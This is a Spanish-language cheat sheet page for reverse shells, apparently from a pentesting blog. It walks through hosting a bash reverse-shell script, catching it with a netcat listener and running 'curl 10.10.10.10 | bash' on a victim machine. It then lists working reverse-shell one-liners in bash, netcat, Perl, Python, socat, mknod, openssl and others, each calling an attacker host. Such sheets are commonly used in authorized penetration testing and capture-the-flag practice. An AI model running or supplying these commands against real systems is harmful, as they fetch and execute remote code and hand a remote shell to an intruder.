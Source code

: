 ```yaml
---
title: Revershell cheet sheat
description: "Revershell cheet sheat"
published: true
pubDate: "2024-06-01"
updatedDate: "2024-06-01"
heroImage: /assets/posts1/revershell/revershell.jpg
---
```


- Paso 1: Tener ejecucion remota de comandos,
- Paso 2: luego verificar si hay curl , lo haces con " which curl"
- Paso 3: luedo de la maquina atacante te abres un servidor http y creas un
- index.html:

  ```bash
   #!/bin/bash
   bash -i >& /dev/tcp/10.10.10.10/443 0>&1
  ```

- y te pones en escucha en la maquina atacante con:

  ```bash
   nc -nlvp 443
  ```

- y ejecutas en la maquina victima lo siguiente

  ```bash
  curl 10.10.10.10 | bash
  ```

- obtendras una revershell(realizar tratamiento de la consola):

---

**MAS FORMAS**

---

- NC

  ```bash
   nc -e /bin/sh X.X.X.X 443
  ```

- BASH

  ```bash
  bash -i >& /dev/tcp/X.X.X.X/443 0>&1
  ```

- PERL

  ```bash
  perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

- PYTHON

  ```python
   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```

---

- SOCAT

  ```
   socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443
  ```

- SSH

  ```
   ssh -R 443:localhost:443 user@X.X.X.X
  ```

- TELNET

  ```
   telnet X.X.X.X 443
  ```

- mknod BASH

  ```
   mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
  ```

- BASH /DEV/TCP

  ```
   /bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
  ```

- openssl

  ```
   openssl s_client -quiet -connect X.X.X.X:443
  ```

- exec

  ```
   exec 5<>/dev/tcp/X.X.X.X/443
  ```

- xterm

  ```
   xterm -display X.X.X.X:0
  ```
